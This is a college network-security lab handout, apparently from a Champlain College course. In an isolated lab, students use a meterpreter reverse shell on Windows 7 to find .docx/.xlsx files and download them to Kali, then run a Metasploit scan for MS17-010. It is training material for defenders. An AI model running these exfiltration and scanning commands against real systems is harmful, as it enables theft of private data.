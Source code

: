 # Data Exfiltration


## Discussion

Data exfiltration is particularly problematic because the amount of data that can be obtained could be significant.  There have been attacks where Terabytes of data had been stolen and it was never detected until the organization was contacted by law enforcement or the data was publicly exposed.  As you perform the attack in this lab, think of it happening to a medical facility where you and your family receive treatment, to Champlain College, or a bank.  Think of the types of information you’ve provided to your hospital, Dr’s office, Champlain, or a bank.


## Preparation



* Ensure your firewall, Windows 7, and Kali system are on.
* Kali must be on the NETSEC-WAN segment
* Switch to your WIndows 7 system.and open Internet Explorer (Start menu and type “iexplore”)
* Browse to Google and search for Google Chrome.
* Download Google Chrome and install it.
* Open Google Chrome and browse to the URL: https://tinyurl.com/5y2e8xxe
* Download the zip file:
* Extract the files to the “Documents” folder for ‘joker.’


## Start the Attack


Login to your Kali system and perform the attack to [obtain a reverse shell on Windows 7.](https://docs.google.com/document/u/0/d/1H-UP20kA2V46aPtNbcMP4iHkW8g5_876y2nYlzmh-0w/edit)

**NOTE: You should already have the WinSCP file in your Downloads folder, so you only need to start the listener on Kali and once it is running, execute the WinSCP program.**

At the meterpreter prompt, type:

search  -f   *.docx

The command searches for files ending with *.docx.  Wait to see if there are any results.  If not, search for *.xlsx files

Note the output of files.  To exfil those files use the “Download” command.

download ‘PATH_TO_FILE’

You have to add the single quotes around the file name.  Download each of the files to your Kali workstation.

Type the command “ls” on your Kali workstation to show the files were downloaded.  Annotate the files highlighted.

NOTE: If obtaining those xlsx files was the attackers goal, the attack is over that quick.

**Submission: Take a screenshot of the files that were exfiltrated.**



**Complete the MRCI Lab under “Security Tools:” Use Metasploit To Identify A Machine Vulnerable To MS17-010**

Note that it mentions using the “auxiliary” module.  Auxiliary modules within Metasploit are typically used for scanning or enumerating (finding information), but not to “exploit” a vulnerability.  When you popped a shell on Windows XP, you used an “exploit” module.  Accordingly, when you search for the MS17-010 module, then look for the ‘auxiliary’ modules.  Try each one and be sure it meets the rubric for the lab.  Use your mouse to highlight the expected text:

**Validation: You will see the message appear 'Host is LIKELY vulnerable to MS17-010!'**
